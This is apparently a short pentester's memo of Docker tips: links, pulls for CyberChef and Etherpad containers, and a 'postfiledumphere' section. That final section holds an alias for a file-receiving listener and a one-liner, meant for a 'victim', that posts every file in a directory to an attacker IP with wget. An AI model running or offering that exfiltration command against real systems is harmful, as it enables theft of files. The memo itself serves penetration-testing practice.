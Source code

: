# docker

## Inspiration

* this [excellent post](https://blog.ropnop.com/docker-for-pentesters/) from ropnop.
* one good example in [this article](https://0x00sec.org/t/tricks-of-the-trade-from-5-years-in-offensive-cyber-security/15794) from 0x00sec.

## alpyntest

See [here](https://github.com/yaap7/miSCripts/tree/master/alpyntest).

## CyberChef Container

[Online example](https://gchq.github.io/CyberChef/)

``` bash
docker pull remnux/cyberchef
```

## Etherpad-lite Container

``` bash
docker pull etherpad/etherpad-lite:lastest
```

## postfiledumphere

Just a memo of [this article](https://0x00sec.org/t/tricks-of-the-trade-from-5-years-in-offensive-cyber-security/15794) from 0x00sec.

``` bash
alias postfiledumphere='docker run --rm -it -p80:3000 -v "${PWD}:/data" rflathers/postfiledump'  
```

Then, your system will listen on port 80, ready to receive files from your victim.
On your victim, you just need wget or curl, and this oneliner:

``` bash
ls | xargs -I{} wget http://10.10.14.3/{} --post-file {}
```
